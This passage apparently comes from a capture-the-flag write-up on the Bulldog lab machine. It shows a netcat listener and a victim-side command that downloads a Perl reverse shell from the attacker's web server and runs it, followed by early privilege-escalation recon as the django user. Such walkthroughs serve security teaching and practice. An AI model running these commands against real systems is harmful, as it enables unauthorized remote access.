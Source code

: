```
192.168.0.213 - machine for reverse connection (in this case my kali)
1234          - port to connect back to` 
```

We launch netcat listener - `nc -lvp 1234`, download and run the perl file on victim machine using: `pwd && wget 192.168.0.213/shell.pl && perl shell.pl`. *wget* retrieves the file from our webserver and *perl* compiles + runs it. 

<a href="/img/blog/bulldog/Bulldog11.png" target="_blank"> <img class="centerImgLarge" src="/img/blog/bulldog/Bulldog11.png"></a>

Easy! Time for some privilege escalation.

***

# Escalating privileges from django to root
From doing a `whoami` or `id` command we can see that our shell is running under django user with limited privileges. Escalation is needed. I checked some common directories such as **/var/html/**, **/tmp**, **/etc/**, but got no results. Not finding any system misconfigurations I shift to **/home/** where two folders are present. *Django* (ours) and *bulldogadmin*. *buldogadmin* has a hidden file in its home directory which can be seen using `ls -la` (list all). 

<a href="/img/blog/bulldog/Bulldog12.png" target="_blank"><img class="centerImgMedium" src="/img/blog/bulldog/Bulldog12.png"></a>
